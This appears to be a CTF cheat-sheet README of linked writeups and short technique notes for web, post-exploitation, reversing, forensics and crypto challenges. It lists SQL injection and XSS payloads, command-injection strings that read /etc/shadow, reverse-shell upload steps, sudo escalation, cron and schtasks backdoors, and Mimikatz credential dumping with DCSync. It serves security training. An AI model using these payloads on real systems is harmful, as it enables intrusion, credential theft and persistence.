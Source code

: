 # Writeups
* [HTB Cyber Apocalypse 2023 writeups](https://github.com/sbencoding/htb_ca2023_writeups)
* [Siunam321 writeups](https://siunam321.github.io/ctf/) - Long list of solutions from CTFs/TryHackMe/Wargames/HTB

# CTF Techniques
* [Steps to follow in a CTF](https://github.com/chreniuc/CTF)

# Web
Hidden pages
* Run `Dirbuster`, `dirb`, or `gobuster` to get a directory tree and insecure files
* Inspect robots.txt : www.website.com/robots.txt
* Inspect website headers: `curl -I website.com/page.php`

Hidden details - Use "Find" in page source to search: Login, Password, Admin, Administrator, Success
Passwords - Always try password=username first, then shorter/obvious password lists, before running rockyou.txt

[Admin Access through weak password update process - Walkthrough](https://siunam321.github.io/ctf/Cyber-Apocalypse-2023/Web/Passman/)
* Create user --> BurpSuite Interceptor ON --> Update Password --> Burp Repeater request to change "admin" password 

## SQL Inj 
Attempt login with: `admin' OR 1=1`, `' OR 1=1-- -`, `" OR 1=1-- -`, `" OR 1 or "`, `admin"-- -"`, `admin;-- -'`

## Reflected XSS 
Put any of the following into address bars, comment fields or any Java fields: <script>alert(flag)</script>, <sScriptCRIPT>alert(flag)</sSCRIPTcript>, 

## OS Inj
Run [valid input] followed by: `|| cat ../flag.txt`, `| cat ../flag.txt`, `&& cat ../flag.txt`, `& cat ../flag.txt`, `; cat ../flag.txt`
Run [valid input] followed by: `|| cat ../../etc/passwd`, `| cat ../etc/shadow`, `&& cat ../etc/shadow`, `& cat ../etc/shadow`, `; cat ../etc/shadow`
Run [valid input] followed by: `|| ifconfig`, `| ifconfig`, `&& ifconfig`, `& ifconfig`, `; ifconfig`

Input following into address bar with "?" options: `?message=;system` , `?page='netstat`
Other options for breaks: ' " : 

## Directory Traversal
Inspect address bar and use variations of `?page=disclaimer_2.txt` to find files/directories (eg. `?page=old_disclaimers/disclaimer_1.txt`)

## Local File Inclusion

Any option to upload a file: make sure it's php. 
* [PHP Sandbox](https://onlinephp.io/) - Testing PHP code
* [PHP - Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) - Edit and upload this, run nc listener, then access file from target server to establish a shell
* If whitelisting is being used, add an extension to PHP file (eg. cats.php.jpg)

## Remote File Inclusion

## Linux - Host Enumeration
* `Nmap -A -v ipaddress` (-A for aggressive, -v for verbose) [-sV not required with -A]
* `Nmap -sC -sV ipaddress` (-sC for script scan, -sV for Version detection)

Linux Post-exploitation: ls, cat, locate, cat /etc/users
* `getuid` , `search -f flag`, `locate flag`
* Attempt escalation with `sudo -u#-1 bash` for root
* Persistent backdoor through `cron`

Windows Post-exploitation: dir, type, find, net users
* Persistent backdoor through `schtasks` (check task names with `schtasks /query /TN flag /FO list /v`
* Check `C:\` & `C:\Users\Public\Documents`
* Lateral: Search Metasploit for `psexec` exploit to login to Domain Controller
  * Dump SAM with Metasploit/Mimikatz: `kiwi_cmd lsa_dump_sam` (Find Hash NTLM, crack with `john --format=NT hashfile.txt`)
  * Dump LSA cache with Metasploit/Mimikatz: `kiwi_cmd lsadump::cache` (Find MsCacheV2, crack with `john --format=mscash2 hashfile.txt`)
* On Domain Controller: Run DC Sync for admin users eg. `dcsync_ntlm administrator`
_______________________________________________________

# Reversing
* Run `Strings <file> | grep flag`
* [Excellent Reversing Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Reversing-HW-Misc/)
* [Reverse Engineering for Beginners - Free ELearning](https://www.begin.re/)
* [Cutter - RE Platform for Linux](https://cutter.re/)
 * [Cutter Example with HTB CTF2023 Challenge "Shatter Tablet"](https://www.youtube.com/watch?v=iCNLn3nvEZA)
* [IDA - Common Code Disassembler](https://hex-rays.com/ida-free/)
 * [IDA Basics Tutorial](https://resources.infosecinstitute.com/topic/basics-of-ida-pro-2/)
* [Ghidra - Common Decompiler](https://ghidra-sre.org/)
 * [Ghidra - NSA GitHub](https://github.com/NationalSecurityAgency/ghidra)
 * [Ghidra Install & Basics Tutorial](https://www.kalilinux.in/2021/06/ghidra-reverse-engineering-kali-linux.html)

# Forensics
* [Excellent Forensics Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Forensics/)  
* Wireshark Filter: `http contains flag`, `tcp contains flag`
  * Right-click packet and select `Follow stream`
* [Chainsaw - Windows Forensics Tool - GitHub](https://github.com/WithSecureLabs/chainsaw)  
* ps1 = Powershell

# Crypto
* [Cracking RSA with Chinese Remainder Theory - Calculator](https://asecuritysite.com/rsa/rsa_ctf02)

